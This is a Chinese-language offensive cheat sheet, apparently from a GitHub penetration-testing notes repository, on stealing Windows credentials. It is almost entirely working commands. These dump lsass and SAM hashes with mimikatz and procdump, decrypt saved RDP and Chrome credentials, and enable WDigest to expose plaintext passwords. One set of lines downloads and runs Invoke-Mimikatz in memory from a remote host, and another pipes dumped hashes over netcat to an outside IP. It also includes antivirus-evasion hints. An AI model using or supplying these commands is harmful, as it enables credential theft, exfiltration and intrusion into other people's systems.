 # 凭证信息收集

## 凭证获取工具

常用来获取 windows 密码的工具:
1、mimikatz
2、wce
3、pwddump7
4、ophcrack
5、procdump+mimikatz
6、LaZagne

密码 HASH
LM & NTLM

Windows 本地 hash:
https://www.secpulse.com/archives/65256.html

Vindows 系统下 hash 密码格式:
用户名称:RID:LM-HASH 值:NT-HASH 值

## Mimikatz

mimikatz For Win10T 载:

https://github.com/gentilkiwi/mimikatz/releases

### 常用命令
[PTH攻击](17_domain_%E5%9F%9F.md#mimikatz-pth-%E4%BC%A0%E9%80%92%E6%94%BB%E5%87%BB)

```sh
mimikatz.exe "log logon.txt" "privilege::debug" "sekurlsa::logonpasswords" "exit"
mimikatz.exe "log logon.txt" "privilege::debug" "token::elevate" "lsadump::sam" "exit"

# 从lsass.dmp内存 获取 password
sekurlsa::minidump lsass.dmp
sekurlsa::logonpasswords
```

**1x 版本:**

```sh
privilege::debug       //提升权限
inject::process lsass.exe sekurlsa.dl   //注入sekurlsa.dl到lsass.exe进程里
@getLogonPasswords     //获取密码
```

**Powershell 远程加载 mimikatz 脚本**

```ts
// IEX是加载到内存中执行的。
powershell IEX (New-Object Net.WebClient).DownloadString('http://192.168.159.130/1');Invoke-Mimikatz -DumpCreds
powershell "IEX (New-Object Net.WebClient).DownloadString('http://192.168.159.130/1');Invoke-Mimikatz -DumpCreds"
```

杀软绕过: 1.大写小写。 2.用+号 拼凑。。
[Mimikatz 的 18 种免杀姿势及防御策略](https://www.freebuf.com/articles/system/234365.html)

```ts
v2.0 https://github.com/PowerShellMafia/PowerSploit/raw/master/Exfiltration/Invoke-Mimikatz.ps1
v2.2 https://raw.githubusercontent.com/Mr-xn/Penetration_Testing_POC/master/tools/Invoke-Mimikatz.ps1
```

输出重定向

```sh
攻击机: nc -lvvp 6666 > pass123.txt
靶机  : mimikatz.exe "log res.txt" "privilege::debug" "token::elevate" "lsadump::sam" "exit" | nc.exe -v 47.101.214.85 6666
```

powershell IEX (New-Object Net.WebClient).DownloadString('https://127.0.0.1/f');Get-PassHashes // 不好使

### 获取远程登录凭据

[内网渗透 | 获取远程主机保存的 RDP 凭据密码](https://mp.weixin.qq.com/s/F4AjedMpzObUm7NH3484lw)

```bash
# 1.cmdkey /list务必在Session会话下执行 或 poiwerpick
cmdkey /list
# 2.导出凭据
mimikatz.exe "log log_dpapi.txt" "privilege::debug" "sekurlsa::dpapi" "exit"
# 3.导出SESSION信息
mimikatz.exe "log 54461880A4E364919FB23518091F65E1.txt" "privilege::debug" "dpapi::cred /in:%userprofile%\AppData\Local\Microsoft\Credentials\54461880A4E364919FB23518091F65E1" "exit"
# 4.在log_dpapi.txt找到 54461880A4E364919FB23518091F65E1.txt中的guidMasterKey的值下面的masterKey, 读取明文
mimikatz "log plain1.txt" "dpapi::cred /in:%cred%\54461880A4E364919FB23518091F65E1 /masterkey:0ea407f34e8dbea06a9ce6ee42c61579bdfea6dd3e93d5b9aa36561c223922fe67a2bf18e5350e139bc977d88574cd1b4762c1183647b80e817c0327314cd29a" "exit"
```

### windows server 2012 及以上的系统明文

通过添加注册表，再通过例如锁屏、注销或重启等操作，让管理员重新登录及可以读取明文。

```sh
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
```

### FAQ 不能执行 powershell 远程命令

```ps
set-ExecutionPolicy RemoteSigned
或 Set-ExecutionPolicy -Scope CurrentUser
get-ExecutionPolicy
```

## 导出密码的几种方式

https://www.daimajiaoliu.com/daima/486f56b9d900403

procdump 导出

```sh
procdump64.exe -accepteula -ma lsass.dmp
mimikatz
mimikatz # sekurlsa::minidump lsass.dmp
mimikatz # sekurlsa::logonPasswords full
```

## wce 获取明文密码 win7 及以下

wce -w

## pwddump7 获取 hash

Pwddump7.exe > pass.txt
https://www.objectif-securite.ch/ophcrack

如果网站无法破解出 hash 值·我们可以使用 ophcrack 工具配合彩虹表自己破解.
工具下载:https://ophcrack.sourceforge.io/
彩虹表:
https://ophcrack.sourceforge.io/tables.php
http://project-rainbowcrack.com/table.htm

## Procdump+Mimikatz

Procdump lsass 进程导出:
For 32bits: procdump.exe -accepteula -ma lsass.exe lsass.dmp
For 64bits: procdump.exe -accepteula -64 -ma lsass.exe lsass.dmp
然后使用 mimikatz 还原密码:
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" "exit"

## 注册表导出 hash

```sh
reg save HKLM\SYSTEM system.hiv
reg save HKLM\SAM sam.hiv
reg save HKLM\SECURITY security.hiv
导出后可以使用 cain 导人 system.hiv.security.hiv 获取统存中的明文信息.
mimikatz "lsadump sam /system:system.hiv /sam:sam.hiv" exit
```

python3 -m pip install impacket
windows: python secretsdump.py -sam sam.hiv -security security.hiv-system system.hiv LOCAL
linux: impacket -secretsdump -system system.hiv -ntds ntds.dit LOCAL

## sharpdump

## Windows Wifi 密码的获取

netsh wlan show profile
netsh wlan show profile name="ssid" key=clear

## 看 hosts

C:\Windows\System32\drivers\etc\hosts

## Windows IIS config

lIS6:
cscript.exe C:\Inetpub\AdminScripts\adsutil.vbs ENUM W3SVC/1/root

IIS7,8:
列出网站列表:%systemroot%/system32/inetsrv/appcmd.exe list site
列出网站物理路:%systemroot%\system32\inetsr\appcmd.exe list vdir
Mimikatz 读取 lIS7 配置文件密码:
mimikatz.exe privilege:debug log "iis:apphost /in:"%systemroot%\system32\inetsr\config\applicationHost.config" /live" exit

## windows 回收站信息获取

FOR /f "skip=1 tokens=1,2 delims=" %c in ('wmic useraccount get name^,sid') do dir /a/b C:\$Recycle.Bin\%d\ ^>%c.txt

## Chrpme 的密码和 cookie 获取

%localappdata%\Google\chrome\USERDA~1\default\LOGIND~ 1
%localappdata%\Google\chrome\USERDA~1\default\cookies

chrome 的用户信息·保存在本地文件为 sqlite 数据库格式

mimikatz.exe privilege::debug log "dpapi::chrome /in:%localappdata%\google\chrome\USERDA~1\default\cookies /unprotect" exit

mimikatz.exe privilege::debug log "dpapi::chrome /in:%localappdata%\google\chrome\USERDA~1\default\LOGIND~1" exit # 读 chrome 密码

## **lazagne** 综合获取信息
